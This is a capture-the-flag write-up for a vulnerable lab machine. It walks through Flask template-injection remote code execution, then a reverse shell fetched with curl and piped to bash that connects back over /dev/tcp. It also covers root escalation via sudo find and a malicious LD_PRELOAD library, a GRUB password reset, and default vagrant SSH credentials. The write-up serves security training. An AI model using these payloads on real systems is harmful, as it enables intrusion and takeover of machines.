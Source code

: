 # Th3HackerNewsBdarija box Writeup

## Introduction 

Yo !
before starting this writeup, we would like to thank Thehackernewsbdarija community and thank the staff that created this box.

![image](https://c.tenor.com/G0PWi59OVk0AAAAM/mr-bean-delicious.gif)

And i'm happy because i won this competition

![happy](https://c.tenor.com/aSW9ZfIIC64AAAAC/shaq-shimmy.gif)

Description [Moroccan Darija] : https://www.facebook.com/Th3HackerNewsBdarija/posts/219555037030078

Download link : https://drive.google.com/file/d/1ipYcoAsZ-uTrSpFcu4s0oo0OmBKqHwgk/view?usp=sharing

Enjoy!

## Writeup

### Web 
let's find the ip for the machine, i used netdiscover but you are free to use nmap or your router page 

```bash
netdiscover -r 192.168.1.1/24
```

I started by fuzzing on parameters to detect any parametes

![bigdd](https://imgur.com/aB2aOjP.png)

After getting the "search" parameter we can remark that it is infected by a "Flask SSTI2" vulnerability 

`http://192.168.1.108/?search={{3 * 3}}`

![pp](https://imgur.com/xFVJDr0.png)

We can exploit that to get an rce

`http://192.168.1.108/?search={{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`

![bigppp](https://imgur.com/yqqngBi.png)

Getting a reverse shell
    localhost :

```bash
echo "/bin/bash -l > /dev/tcp/192.168.1.109/4444 0<&1 2>&1" > payload.sh
python -m SimpleHTTPServer
nc -nlvp 4444
```

    Server : http://192.168.1.108/?search={{request.application.__globals__.__builtins__.__import__('os').popen('curl http://192.168.1.109:8000/payload.sh | bash').read()}}

and we got a shell : 

![ppd](https://i.imgur.com/QWpoHLI.png)

### Pwn 

After getting a shell as c3p0 we can see an executable "hackernews"

![bigpp](https://i.imgur.com/gULwJX9.png)

This executable asks for a password 

![ON0WT2w.png](https://i.imgur.com/ON0WT2w.png)

We can simply find the password by using strings 

![pwn](https://imgur.com/GF8XlNx.png)

By submitting the file we get an encoded password 

![pp](https://i.imgur.com/4P3761I.png)

The encoded password is encoded with Vigenere cipher with decode.fr

![hh](https://imgur.com/8IWQ4BL.png)

`user.txt : thnb{m4b9a_w4l0_4lm0jt4h1D}`

### Privelege esculation

Using `sudo -l` to check user priveleges, we can see that `c3p0` user can execute the find command as root user.

![find](https://i.imgur.com/2xhEgge.png)

We can exploit that using gftobins 

![sudo](https://imgur.com/WjO72Kg.png)

```bash
sudo find . -exec /bin/sh \; -quit
```

Eventually after using this command we can get a shell as root and read the flag

![root](https://imgur.com/feER4s4.png)

`root flag : thnb{br4v0_4kh4y_lH4ck3r_y0u_d1D_1t}`

### Privelege esculation 2

There's another technique for privilige escalation by exploiting the environment variable “LD_Preload”

As we can see by typing sudo -l we detected the environment variable

![ld](https://i.imgur.com/K5mSsMI.png)

Let’s create a C program file inside /tmp directory

![sh](https://i.imgur.com/CK0HxPt.png)

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {

unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");

}
```

![sh](https://i.imgur.com/fBG2766.png)

Let's compile it and execute it 

```Bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls -al shell.so
sudo LD_PRELOAD=/tmp/shell.so find
id
whoami
```

![ld](https://i.imgur.com/00Ba4Nc.png)

And we are root! 

## Other techniques

### Ubuntu Recovering Password 

We can get root by using Ubuntu recovering password

Once you boot your machine keep holding on `SHIFT` to enter The grub menu

![ub](https://i.imgur.com/TTvYvdX.png)

Then press on `E` on your keyboard to edit the grub panel 

![ub](https://i.imgur.com/ejJ3irz.png)

Find any line starting with “Linux” and change access from read-only to read-write by just replacing ro `console=tty1 console=ttyS0` to `rw init=/bin/bash`

![pp](https://i.imgur.com/UwnUmmI.png)

To save the changes and to boot, press `Ctrl-x` and now booting with both read and write access into a Linux kernel

![popp](https://i.imgur.com/VI2VwE8.png)

Type passwd and enter a new password 

![bip](https://i.imgur.com/DZU7WsT.png)

Reboot your machine and login with root and the new password that you created

![peed](https://i.imgur.com/VNLz4T6.png)

And now we have access to both flags

![user](https://i.imgur.com/Upxz1AX.png)

![root](https://i.imgur.com/YhPJunl.png)

### Vagrant SSH 

By default in a box, vagrant user is enabled in the ssh config

```Bash
User vagrant
IdentityFile ~/.ssh/vagrant
````

Let's try to log in with the `USER:PASS = vagrant:vagrant`
 
 ```Bash
 ssh vagrant@192.168.1.109
 ```

It works

![ssh](https://i.imgur.com/yhXFTtu.png)

let's run `sudo -l` to check user priveleges

![ssh](https://i.imgur.com/U98OK4R.png)

We can see that we can run any command as root

Let's run `sudo -s` and we got root 

![ssh](https://i.imgur.com/IJ0zluF.png)


# Conclusion 

I hope you like the writeup 
Good Hacking ! Peace
